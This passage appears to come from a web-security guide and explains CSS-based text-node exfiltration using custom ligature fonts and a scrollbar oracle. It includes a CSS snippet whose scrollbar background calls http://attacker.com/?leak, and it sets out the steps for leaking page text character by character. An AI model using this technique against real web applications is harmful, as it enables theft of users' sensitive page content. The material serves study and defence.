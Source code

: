 ```html
```

When you access this page, Chrome and Firefox fetch "?A" and "?B" because text node of sensitive-information contains "A" and "B" characters. But Chrome and Firefox do not fetch "?C" because it does not contain "C". This means that we have been able to read "A" and "B".

### Text node exfiltration (I): ligatures <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

**Reference:** [Wykradanie danych w świetnym stylu – czyli jak wykorzystać CSS-y do ataków na webaplikację](https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/)

The technique described involves extracting text from a node by exploiting font ligatures and monitoring changes in width. The process involves several steps:

1. **Creation of Custom Fonts**:

   - SVG fonts are crafted with glyphs having a `horiz-adv-x` attribute, which sets a large width for a glyph representing a two-character sequence.
   - Example SVG glyph: `<glyph unicode="XY" horiz-adv-x="8000" d="M1 0z"/>`, where "XY" denotes a two-character sequence.
   - These fonts are then converted to woff format using fontforge.

2. **Detection of Width Changes**:

   - CSS is used to ensure that text does not wrap (`white-space: nowrap`) and to customize the scrollbar style.
   - The appearance of a horizontal scrollbar, styled distinctly, acts as an indicator (oracle) that a specific ligature, and hence a specific character sequence, is present in the text.
   - The CSS involved:
     ```css
     body {
       white-space: nowrap;
     }
     body::-webkit-scrollbar {
       background: blue;
     }
     body::-webkit-scrollbar:horizontal {
       background: url(http://attacker.com/?leak);
     }
     ```

3. **Exploit Process**:

   - **Step 1**: Fonts are created for pairs of characters with substantial width.
   - **Step 2**: A scrollbar-based trick is employed to detect when the large width glyph (ligature for a character pair) is rendered, indicating the presence of the character sequence.
   - **Step 3**: Upon detecting a ligature, new glyphs representing three-character sequences are generated, incorporating the detected pair and adding a preceding or succeeding character.
   - **Step 4**: Detection of the three-character ligature is carried out.
   - **Step 5**: The process repeats, progressively revealing the entire text.

4. **Optimization**:
   - The current initialization method using `<meta refresh=...` is not optimal.
   - A more efficient approach could involve the CSS `@import` trick, enhancing the exploit's performance.
